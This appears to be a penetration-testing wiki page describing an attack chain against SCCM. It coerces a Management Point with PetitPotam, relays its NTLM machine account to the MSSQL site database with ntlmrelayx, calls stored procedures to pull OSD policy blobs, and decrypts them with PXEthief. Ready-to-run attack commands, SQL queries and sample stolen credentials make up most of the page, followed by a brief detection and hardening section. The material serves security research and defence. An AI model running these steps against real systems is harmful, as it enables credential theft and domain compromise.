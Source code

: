 # SCCM Management Point NTLM Relay to SQL – OSD Policy Secret Extraction

{{#include ../../banners/hacktricks-training.md}}

## TL;DR
By coercing a **System Center Configuration Manager (SCCM) Management Point (MP)** to authenticate over SMB/RPC and **relaying** that NTLM machine account to the **site database (MSSQL)** you obtain `smsdbrole_MP` / `smsdbrole_MPUserSvc` rights.  These roles let you call a set of stored procedures that expose **Operating System Deployment (OSD)** policy blobs (Network Access Account credentials, Task-Sequence variables, etc.).  The blobs are hex-encoded/encrypted but can be decoded and decrypted with **PXEthief**, yielding plaintext secrets.

High-level chain:
1. Discover MP & site DB ↦ unauthenticated HTTP endpoint `/SMS_MP/.sms_aut?MPKEYINFORMATIONMEDIA`.
2. Start `ntlmrelayx.py -t mssql://<SiteDB> -ts -socks`.
3. Coerce MP using **PetitPotam**, PrinterBug, DFSCoerce, etc.
4. Through the SOCKS proxy connect with `mssqlclient.py -windows-auth` as the relayed **<DOMAIN>\\<MP-host>$** account.
5. Execute:
   * `use CM_<SiteCode>`
   * `exec MP_GetMachinePolicyAssignments N'<UnknownComputerGUID>',N''`
   * `exec MP_GetPolicyBody N'<PolicyID>',N'<Version>'`   (or `MP_GetPolicyBodyAfterAuthorization`)
6. Strip `0xFFFE` BOM, `xxd -r -p` → XML  → `python3 pxethief.py 7 <hex>`.

Secrets such as `OSDJoinAccount/OSDJoinPassword`, `NetworkAccessUsername/Password`, etc. are recovered without touching PXE or clients.

---

## 1. Enumerating unauthenticated MP endpoints
The MP ISAPI extension **GetAuth.dll** exposes several parameters that don’t require authentication (unless the site is PKI-only):

| Parameter | Purpose |
|-----------|---------|
| `MPKEYINFORMATIONMEDIA` | Returns site signing cert public key + GUIDs of *x86* / *x64* **All Unknown Computers** devices. |
| `MPLIST` | Lists every Management-Point in the site. |
| `SITESIGNCERT` | Returns Primary-Site signing certificate (identify the site server without LDAP). |

Grab the GUIDs that will act as the **clientID** for later DB queries:
```bash
curl http://MP01.contoso.local/SMS_MP/.sms_aut?MPKEYINFORMATIONMEDIA | xmllint --format -
```

---

## 2. Relay the MP machine account to MSSQL
```bash
# 1. Start the relay listener (SMB→TDS)                              
ntlmrelayx.py -ts -t mssql://10.10.10.15 -socks -smb2support

# 2. Trigger authentication from the MP (PetitPotam example)
python3 PetitPotam.py 10.10.10.20 10.10.10.99 \
       -u alice -p P@ssw0rd! -d CONTOSO -dc-ip 10.10.10.10
```
When the coercion fires you should see something like:
```
[*] Authenticating against mssql://10.10.10.15 as CONTOSO/MP01$ SUCCEED
[*] SOCKS: Adding CONTOSO/MP01$@10.10.10.15(1433)
```

---

## 3. Identify OSD policies via stored procedures
Connect through the SOCKS proxy (port 1080 by default):
```bash
proxychains mssqlclient.py CONTOSO/MP01$@10.10.10.15 -windows-auth
```
Switch to the **CM_<SiteCode>** DB (use the 3-digit site code, e.g. `CM_001`).

### 3.1  Find Unknown-Computer GUIDs (optional)
```sql
USE CM_001;
SELECT SMS_Unique_Identifier0
FROM dbo.UnknownSystem_DISC
WHERE DiscArchKey = 2; -- 2 = x64, 0 = x86
```

### 3.2  List assigned policies
```sql
EXEC MP_GetMachinePolicyAssignments N'e9cd8c06-cc50-4b05-a4b2-9c9b5a51bbe7', N'';
```
Each row contains `PolicyAssignmentID`,`Body` (hex), `PolicyID`, `PolicyVersion`.

Focus on policies:
* **NAAConfig**  – Network Access Account creds
* **TS_Sequence** – Task Sequence variables (OSDJoinAccount/Password)
* **CollectionSettings** – Can contain run-as accounts

### 3.3  Retrieve full body
If you already have `PolicyID` & `PolicyVersion` you can skip the clientID requirement using:
```sql
EXEC MP_GetPolicyBody N'{083afd7a-b0be-4756-a4ce-c31825050325}', N'2.00';
```
> IMPORTANT: In SSMS increase “Maximum Characters Retrieved” (>65535) or the blob will be truncated.

---

## 4. Decode & decrypt the blob
```bash
# Remove the UTF-16 BOM, convert from hex → XML
echo 'fffe3c003f0078…' | xxd -r -p > policy.xml

# Decrypt with PXEthief (7 = decrypt attribute value)
python3 pxethief.py 7 $(xmlstarlet sel -t -v "//value/text()" policy.xml)
```
Recovered secrets example:
```
OSDJoinAccount : CONTOSO\\joiner
OSDJoinPassword: SuperSecret2025!
NetworkAccessUsername: CONTOSO\\SCCM_NAA
NetworkAccessPassword: P4ssw0rd123
```

---

## 5. Relevant SQL roles & procedures
Upon relay the login is mapped to:
* `smsdbrole_MP`
* `smsdbrole_MPUserSvc`

These roles expose dozens of EXEC permissions, the key ones used in this attack are:

| Stored Procedure | Purpose |
|------------------|---------|
| `MP_GetMachinePolicyAssignments` | List policies applied to a `clientID`. |
| `MP_GetPolicyBody` / `MP_GetPolicyBodyAfterAuthorization` | Return complete policy body. |
| `MP_GetListOfMPsInSiteOSD` | Returned by `MPKEYINFORMATIONMEDIA` path. |

You can inspect the full list with:
```sql
SELECT pr.name
FROM   sys.database_principals AS dp
JOIN   sys.database_permissions AS pe ON pe.grantee_principal_id = dp.principal_id
JOIN   sys.objects AS pr ON pr.object_id = pe.major_id
WHERE  dp.name IN ('smsdbrole_MP','smsdbrole_MPUserSvc')
  AND  pe.permission_name='EXECUTE';
```

---

## 6. Detection & Hardening
1. **Monitor MP logins** – any MP computer account logging in from an IP that isn’t its host ≈ relay.
2. Enable **Extended Protection for Authentication (EPA)** on the site database (`PREVENT-14`).
3. Disable unused NTLM, enforce SMB signing, restrict RPC (
   same mitigations used against `PetitPotam`/`PrinterBug`).
4. Harden MP ↔ DB communication with IPSec / mutual-TLS.

---

## See also
* NTLM relay fundamentals:
  {{#ref}}
  ../ntlm/README.md
  {{#endref}}

* MSSQL abuse & post-exploitation:
  {{#ref}}
  abusing-ad-mssql.md
  {{#endref}}



## References
- [I’d Like to Speak to Your Manager: Stealing Secrets with Management Point Relays](https://specterops.io/blog/2025/07/15/id-like-to-speak-to-your-manager-stealing-secrets-with-management-point-relays/)
- [PXEthief](https://github.com/MWR-CyberSec/PXEThief)
- [Misconfiguration Manager – ELEVATE-4 & ELEVATE-5](https://github.com/subat0mik/Misconfiguration-Manager)
{{#include ../../banners/hacktricks-training.md}}
